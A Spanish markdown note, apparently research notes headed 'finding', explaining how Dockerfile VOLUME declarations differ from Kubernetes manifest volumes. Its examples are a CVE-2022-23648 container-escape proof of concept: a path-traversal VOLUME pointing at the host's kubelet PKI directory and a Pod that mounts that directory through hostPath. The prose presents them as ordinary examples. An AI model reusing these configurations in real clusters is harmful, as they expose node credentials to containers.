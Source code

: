 # finding

## ¿Cual es la diferencia de colocar el volumen en el deployment de kubernetes (manifiesto) y colocarlo en el dockerfile?

La diferencia principal entre declarar un volumen en el Dockerfile versus hacerlo en el manifiesto de Kubernetes es el alcance y control que cada opción permite en el entorno de ejecución del contenedor.


    FROM registry.access.redhat.com/ubi8/ubi
    VOLUME /../../../../../../../../var/lib/kubelet/pki/
    ENTRYPOINT "/bin/bash"


Estás indicando a Docker que el directorio especificado debe mantenerse independiente del sistema de archivos del contenedor para evitar la pérdida de datos. Este volumen no se monta automáticamente en Kubernetes, a menos que se declare explícitamente en el manifiesto. En el contexto de Kubernetes, la declaración de volumen en el Dockerfile actúa más como una sugerencia que el entorno de Kubernetes no seguirá automáticamente.

## Volumen en el Manifiesto de Kubernetes

Para que Kubernetes monte un volumen específico en el contenedor, debe declararse directamente en el manifiesto de despliegue del Pod. Kubernetes permite mucha más flexibilidad sobre los volúmenes al definirlos en el manifiesto, como elegir el tipo de almacenamiento (por ejemplo, emptyDir, hostPath, persistentVolumeClaim, etc.) y el punto de montaje exacto.

    apiVersion: v1
    kind: Pod
    metadata:
    name: poctest
    spec:
    containers:
        - name: poctest
        image: ghcr.io/raesene/cve-2022-23648-poc:v1
        command: ["/bin/bash", "-c", "--"]
        args: [ "while true; do sleep 30; done" ]
        volumeMounts:
            - name: kubelet-pki
            mountPath: /var/lib/kubelet/pki
    volumes:
        - name: kubelet-pki
        hostPath:
            path: /var/lib/kubelet/pki


### Resumen de las Diferencias

Persistencia Controlada: Definir el volumen en el manifiesto de Kubernetes **permite a Kubernetes gestionar el ciclo de vida del volumen** de acuerdo con la configuración y la persistencia que hayas elegido. En el Dockerfile, la persistencia queda fuera del control de Kubernetes.

Flexibilidad y Tipos de Volumen: En Kubernetes, tienes la flexibilidad de elegir el tipo de volumen, mientras que en el **Dockerfile el volumen simplemente define un espacio en disco sin especificar un backend o almacenamiento persistente específico.**

**Configuración Obligatoria en Kubernetes: Aunque definas un VOLUME en el Dockerfile, debes igualmente declararlo en el manifiesto de Kubernetes para que sea accesible en el Pod.**

En general, en un entorno de Kubernetes, se recomienda definir los volúmenes en el manifiesto para tener un control completo sobre el almacenamiento y su persistencia.


## ¿De que me sirve declarar el volumen en el dockerfile?

Definir un volumen en el Dockerfile sirve principalmente en entornos de Docker estándar (fuera de Kubernetes) para indicar que un directorio específico dentro del contenedor debe tratarse como un volumen. Esto puede ayudar a prevenir la pérdida de datos al hacer que Docker almacene los datos en un volumen independiente, sin necesidad de montarlo explícitamente en el sistema de archivos del host o asignarlo a un volumen externo.

**Utilidad en el Dockerfile** 

Persistencia de datos sin configuración explícita: Cuando ejecutas el contenedor localmente o en un entorno Docker sin Kubernetes, el contenedor usará automáticamente el volumen, permitiendo que los datos en ese directorio se mantengan a pesar de los reinicios del contenedor.
Unidad lógica para datos temporales: Esto puede ser útil si necesitas una ubicación específica dentro del contenedor que actúe como almacenamiento temporal sin montar necesariamente un volumen externo.


**En Kubernetes**,** esta declaración de volumen en el Dockerfile tiene menos efecto, **porque Kubernetes no montará el volumen automáticamente a menos que lo declares en el manifiesto**. Sin embargo, sigue siendo una indicación para el equipo de desarrollo o el sistema que construyó la imagen de que **esa ruta debería tratarse como un volumen.**


## ¿Unidad lógica o volumen dentro del contenedor?

Sí,**al declarar el volumen en el Dockerfile, obtienes una especie de “unidad lógica” para almacenar datos en esa ruta dentro del contenedor sin conectarla al sistema de archivos del nodo del clúster**. Sin embargo, esta unidad solo es persistente para el ciclo de vida del contenedor, y cualquier dato almacenado ahí se perderá cuando el contenedor se elimine.

En conclusión, en Kubernetes, es mejor configurar volúmenes en el manifiesto, ya que esto ofrece mayor flexibilidad y control. La declaración de VOLUME en el Dockerfile es más útil en entornos fuera de Kubernetes.


PENDIENTE TERMINAL DE WHATSAPP




